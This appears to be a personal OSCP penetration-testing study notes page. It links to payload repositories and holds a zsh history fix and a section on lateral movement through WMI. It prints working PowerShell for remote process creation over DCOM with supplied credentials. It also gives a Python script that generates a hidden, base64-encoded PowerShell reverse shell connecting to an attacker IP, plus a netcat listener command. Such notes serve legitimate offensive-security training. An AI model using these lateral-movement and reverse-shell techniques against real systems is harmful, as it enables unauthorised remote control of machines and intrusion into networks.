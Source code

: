 Tags: [[OSCP]]

---
# Links
- PayloadAllTheThings https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master
- Box Writeups https://0xdf.gitlab.io/
- [PG & HTBV Boxes for OSCP Prep](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview?pli=1#)
- [Impacket usage & detection](https://neil-fox.github.io/Impacket-usage-&-detection/)

Fix zsh corrupt history
```
cd ~ ||
mv .zsh_history .zsh_history_bad ||
strings .zsh_history_bad > .zsh_history || 
fc -R .zsh_history ||
rm ~/.zsh_history_bad
```
- Python Virtual Environment https://www.freecodecamp.org/news/how-to-setup-virtual-environments-in-python/
- Building an .exe from .csproj & .sln files (.NET)
	- `git clone https://github.com/RepoToClone` then `cd RepoToClone`
## WMI
Abusing WMI in PowerShell (to launch Calc)
```
$username = 'targetuser'; #not the current user
$password = 'Password123!'; #not the current password
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.target.ip -Credential $credential -SessionOption $Options 
$command = 'calc';

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
````
---
To generate a base64-encoded reverse shell, create the following python script (encode.py);
```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.attacker.ipaddress",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```
Setup a NetCat Listener: `nc -lnvp 443`
Then setup variables on the target with PowerShell & invoke process creation;
```
$username = 'targetuser';
$password = 'password123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

```
